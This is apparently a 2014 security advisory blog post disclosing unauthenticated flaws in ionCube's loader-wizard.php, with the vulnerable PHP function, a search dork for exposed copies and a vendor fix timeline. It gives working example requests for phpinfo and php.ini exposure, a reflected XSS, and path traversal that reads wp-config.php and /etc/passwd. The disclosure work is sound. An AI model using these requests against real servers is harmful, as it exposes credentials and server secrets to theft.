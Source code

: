 +++
Description = "Multiple Vulnerabilities in ionCube Loader-wizard"
title = "Multiple Vulnerabilities in ionCube Loader-wizard"
date = "2014-03-30T12:00:00+01:00"
+++

In a recent security audit I spotted a file on the server which caught my attention: `loader-wizard.php`.

After calling the file via a Browser I noticed it's part of ionCubes encoding and [obfuscation](http://en.wikipedia.org/wiki/Obfuscation) software. The software can be found on [ionCubes Homepage](http://www.ioncube.com/php_encoder.php).

<!--more-->

The software compiles your php code into custom bytecode and performs some obfuscation on variable names, class names and so on. This way you can ship your php based product without revealing the original sourcecode. To teach the server how to interpret the encoded format you need to install a seperate ionCube php extension on your server which decrypts the php files at runtime. In my opinion the extra extension is a little bit too much because there can be some vulnerabilities in there too but it looks like many people are using it. The found file `loader-wizard.php` is a little helper script used to detect if the extension is loaded and guide you through the installation process.

The file itself contains many vulnerabilities which are all exploitable with no authentication.

The current loader-wizard.php file can be downloaded for free from [http://www.ioncube.com/loaders.php](http://www.ioncube.com/loaders.php). I only took a look at the loader-wizard.php script available from [http://www.ioncube.com/loader-wizard/loader-wizard.zip](http://www.ioncube.com/loader-wizard/loader-wizard.zip), but maybe someone wants to take a look at the installer script and the extension too.

Doing a quick search on Google using the dork [inurl:loader-wizard.php](https://www.google.com/search?q=inurl%3Aloader-wizard.php) reveals about 34,400 found files. Assuming no one links an installer script they are all found because directory indexing is active so there are probably much more scripts out there. I checked some of the search results with the "phpinfo vulnerability" described below, and all were vulnerable.

I tested the latest version of the loader available for download at the time of writing (2.42) and version 2.36 which is the one I found on the server. All reported vulnerabilities are present in both versions. You can determine the installed version by looking at the footer of the page.

The fixed version is 2.46. Some vulnerabilities like the phpinfo are not fixed because they represent the functionality of the script. Ioncube added a notice on top of every page to remove the file after successful installation.

# phpinfo exposure

When calling the page `phpinfo` the scripts executes `phpinfo()` and presents the contents.

```
http://server.com/loader-wizard.php?page=phpinfo
```

![phpinfo](/img/ioncube/phpinfo.png "phpinfo")

# php.ini exposure

When calling the page `phpconfig` the scripts reads your `php.ini` settings file and prints out all the contents.

```
http://server.com/loader-wizard.php?page=phpconfig
```

![phpconfig](/img/ioncube/phpconfig.png "phpconfig")

# extra information

When calling the page `extra` the scripts outputs some additional informations about the server.

```
http://server.com/loader-wizard.php?page=extra
```

![extra](/img/ioncube/extra.png "extra")

# Download configs as zipped file

When calling the page `system_info_archive` it's possible to download a zip file containing a copy of the `php.ini`, `phpinfo()` output and the extra informations printed on the `extra` page.

```
http://server.com/loader-wizard.php?page=system_info_archive
```

![archive](/img/ioncube/system_info_archive.png "archive")

# reflected XSS

The script uses the PHP variable `$self` in various places. It's possible to inject script code in the script name and thus the script is vulnerable to reflected cross site scripting.

```
http://server.com/loader-wizard.php/%3Cxss%3E
```

The string `<xss>` is printed out unescaped 10 times.

```html
<link rel="stylesheet" type="text/css" href="/loader-wizard.php/<xss>?page=css">
setTimeout("window.location.href = '/loader-wizard.php/<xss>?page=default&amp;timeout=1'",1000);
window.location.href = '/loader-wizard.php/<xss>?page=default';
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=loaderversion",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=platforminfo",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=compilerversion",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=wizardversion",true);
setTimeout("window.location.href = '/loader-wizard.php/<xss>?page=default&amp;timeout=1'",1000);
<a href="/loader-wizard.php/<xss>?page=default">
<a href="/loader-wizard.php/<xss>?page=default&amp;timeout=1">
```

![xss](/img/ioncube/xss.png "xss")

# Get arbitrary file on server

The page `phpconfig` can be abused to download arbitrary files the webserver has access to.

```
http://server.com/loader-wizard.php?page=phpconfig&ininame=../../../../../../../var/www/wordpress/wp-config.php&download=1
```

```
http://server.com/loader-wizard.php?page=phpconfig&ininame=../../../../../../../etc/passwd&download=1
```

![file](/img/ioncube/file.png "file")

## Vulnerable code

You can see you need to set the `download` parameter to supply an own `ininame`. On line 30 the filepath is constructed without sanitizing the filename.

```php
function phpconfig_page()
{
    info_disabled_check();
    $sys = get_sysinfo();
    $download = get_request_parameter('download');
    $ini_file_name = '';
    if (!empty($download)) {
        $ini_file_name = get_request_parameter('ininame');
        if (empty($ini_file_name)) {
            $ini_file_name = ini_file_name();
        }
        header('Content-Type: text/plain');
        header('Content-Disposition: attachment; filename=' . $ini_file_name);
    } else {
        header('Content-Type: text/plain');
    }
    $exclude_original = get_request_parameter('newlinesonly');
    $prepend = get_request_parameter('prepend');
    $stype = get_request_parameter('stype');
    $server_type = find_server_type($stype);
    if (!empty($exclude_original) || !empty($prepend)) {
        $loader_dir = loader_install_dir($server_type);
        $zend_lines = zend_extension_lines($loader_dir);
        echo join(PHP_EOL,$zend_lines);
        echo PHP_EOL;
    }
    if (empty($ini_file_name) || empty($sys['PHP_INI_DIR']) || ($sys['PHP_INI_BASENAME'] == $ini_file_name)) {
        $original_ini_file = isset($sys['PHP_INI'])?$sys['PHP_INI']:'';
    } else {
        $original_ini_file = $sys['PHP_INI_DIR'] . DIRECTORY_SEPARATOR . $ini_file_name;
    }
    if (empty($exclude_original) && !empty($original_ini_file) && @file_exists($original_ini_file)) {
        if (!empty($download)) {
            @readfile($original_ini_file);
        } else {
            echo all_ini_contents();
        }
    }
}
```

# Timeline

02.03.2014 - Contacted Vendor

02.03.2014 - Response from vendor, will be fixed asap

04.03.2014 - Fixed version released (2.46)

30.03.2014 - Blog post published
